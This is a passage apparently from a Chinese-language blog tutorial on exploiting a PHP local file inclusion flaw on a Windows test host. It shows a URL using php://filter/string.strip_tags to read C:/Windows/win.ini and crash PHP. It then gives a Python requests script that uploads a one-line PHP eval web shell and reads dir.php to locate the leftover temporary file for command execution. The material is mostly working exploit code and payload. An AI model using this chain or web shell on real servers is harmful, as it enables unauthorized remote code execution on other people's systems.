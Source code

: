 

<img src="https://i-blog.csdnimg.cn/blog_migrate/539416c9075c698240ff51b7c00de5e7.png" alt="" style="max-height:96px; box-sizing:content-box;" />


然后访问 index.php

这里是windows的环境 所以我们访问 **C:/Windows/win.ini/** 

 **其实这里什么文件都是可以的** 

```cobol
127.0.0.1:3000/index.php?file=php://filter/string.strip_tags/resource=C:/Windows/win.ini
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9b486fe9ac8da0a3893c0957c35cd2ec.png" alt="" style="max-height:615px; box-sizing:content-box;" />


出现了报错

这里就说明存在了

那么我们如何通过上传php木马呢

我们来request写入

### 攻击技巧1

这里是通过存在 dir.php 来显示

这里顺便介绍一个库io 其中的 方法

BytesIO 主要是通过 字节方式存储 我们传递文件 就可以使用这个

```cobol
import  requests
from io import  BytesIO
 
url1 = "http://localhost/index.php?file=php://filter/string.strip_tags/resource=C:/Windows/win.ini"
 
files = {'file':BytesIO('<?php eval($_REQUEST[1]);?>')}
 
re = requests.post(url=url1,files=files,allow_redirects=False)
 
url2 = "http://localhost/dir.php"
 
re2 = requests.get(url = url2)
 
print re2.text
```

首先 我们可以找到 php临时文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/c4609b3df7b3c3e2db8956e1563d4c4e.png" alt="" style="max-height:105px; box-sizing:content-box;" />


然后我们就可以通过这个执行命令了
